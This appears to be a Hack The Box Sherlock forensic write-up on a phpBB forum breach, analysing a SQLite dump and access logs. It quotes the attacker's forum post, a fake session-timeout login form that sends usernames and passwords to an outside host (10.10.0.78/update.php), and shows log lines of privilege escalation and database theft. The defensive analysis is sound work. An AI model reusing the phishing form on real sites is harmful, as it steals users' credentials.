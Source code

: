 ```yaml
---
tags:
  - htb
  - sherlock
  - dfir
  - access
  - log
  - phpbb
  - sqlite3
  - phishing
---
```

### Scenario
An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.

### Artifacts
![![HTB Sherlocks/Bumblebee/#*Table]]

### Tools Used
+ SQLite Browser - For `phpbb.sqlite3` database analysis.
+ Linux Terminal - For `access.log` analysis.

### Forensic Analysis

**Analyzing SQLite3 Database**

The contractor's user information are listed below.
![[Pasted image 20240613104708.png]]


The contractor's post information for the forum are listed below.
![[Pasted image 20240613105158.png]]

Post contents malicious part
```html
<--snip-->
<div id="page-body" class="page-body" role="main">
<div class="panel">
<div class="inner">

<div class="content">
<h3>Session Timeout</h3> <br /> <br />
<p>Your session token has timed out in order to proceed you must login again.</p>
</div>

</div>
</div>

<form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
<div class="panel">
<div class="inner">
<div class="content">

<h2 class="login-title">Login</h2>
<fieldset class="fields1">

<dl>
<dt><label for="username">Username:</label></dt>
<dd><input type="text" tabindex="1" name="username" id="username" size="25"
value="" class="inputbox autowidth"></dd>
</dl>

<dl>
<dt><label for="password">Password:</label></dt>
<dd><input type="password" tabindex="2" id="password" name="password" size="25" class="inputbox autowidth" autocomplete="off"></dd>
</dl>

<dl>
<dd><label for="autologin"><input type="checkbox" name="autologin"
id="autologin" tabindex="4">Remember me</label></dd>
<dd><label for="viewonline"><input type="checkbox" name="viewonline"
id="viewonline" tabindex="5">Hide my online status this session</label></dd>
</dl>

<dl>
<dt>&nbsp;</dt>
<dd> <input type="submit" name="login" tabindex="6" value="Login"
class="button1" onclick="sethidden()"></dd>
</dl>

</fieldset class="fields1">
</div>
</div>
</div>
</form>
</div>
```

At this point we have identified the malicious IP `10.10.0.78`, and was used to access the forum as well as staging a credential stealer namely `update.php`. 

Browsing the `phpbb_log` table we found additional information when the contractor logged in as Administrator. The real Administrator's IP was `10.255.254.2`. Upon Investigating the `access.log` artifact we can verify their information like User-Agent, which URLs were visited to get a sense of baseline activity which are normal for an Administrator user.

Then we can use those information against the threat actor to accurately paint a picture of the malicious activities that was done.

**Analyzing `access.log`**

An access.log file can have a vast volume of data it is recommended to use Splunk or ElasticSearch or any kind of SIEM tool to quickly find and triage information. But, in our case we have relatively small amount of data and we can use basic Linux commands to filter and search for the information we are looking for.

Filtering the access.log file is very helpful to find the actual data we are looking for. For example, we don't need the data when a page loads and request are made to load CSS, images, assets to render the UI.

We can easily filter those types of requests using `egrep`. The command for filtering assets related data is given below:
```bash
cat access.log | egrep -v "/(assets|style|images)"
```

Here `-v` returns everything except the matching pattern.

Let's search for the legit Administrator's User Agent information.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.255.254.2 | head -n1
10.255.254.2 - - [25/Apr/2023:12:08:42 +0100] "GET /adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=12 HTTP/1.1" 403 9412 "http://10.10.0.27/adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=1" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
```

Let's search for the adversary's User Agent information.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | head -n1 
10.10.0.78 - - [25/Apr/2023:12:07:39 +0100] "GET / HTTP/1.1" 200 4205 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0"
```

The contractor added himself to the administrator group.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep adm | grep acp_groups | grep POST
10.10.0.78 - - [26/Apr/2023:11:53:51 +0100] "POST /adm/index.php?i=acp_groups&sid=eca30c1b75dc3eed1720423aa1ff9577&icat=12&mode=manage&g=5 HTTP/1.1" 200 2623 "http://10.10.0.27/adm/index.php?i=acp_groups&sid=eca30c1b75dc3eed1720423aa1ff9577&icat=12&mode=manage&action=list&g=5" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The contractor also sent two requests to backup the database.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep adm | grep action=download            
10.10.0.78 - - [26/Apr/2023:11:54:22 +0100] "POST /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download HTTP/1.1" 200 2463 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:54:24 +0100] "GET /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup HTTP/1.1" 200 3771 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:54:30 +0100] "POST /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download HTTP/1.1" 200 2474 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:56:28 +0100] "GET /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup HTTP/1.1" 200 3770 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

And finally they downloaded the database backup.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep .sql
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The database backup file size was `34707` bytes (34.7 KB) in size.

### Summary
The contractor used his account to stage a phishing page in the internal forum of Forela. Then he stole the Administrator's credential using the phishing page and exfiltrated the data using a credential stealer (httx://10.10.0.78/update.php) hosted on the IP `10.10.0.78`. Then, they used the stolen Administrator credential created an account (apoole) for persistence. Then they backed up and downloaded the database.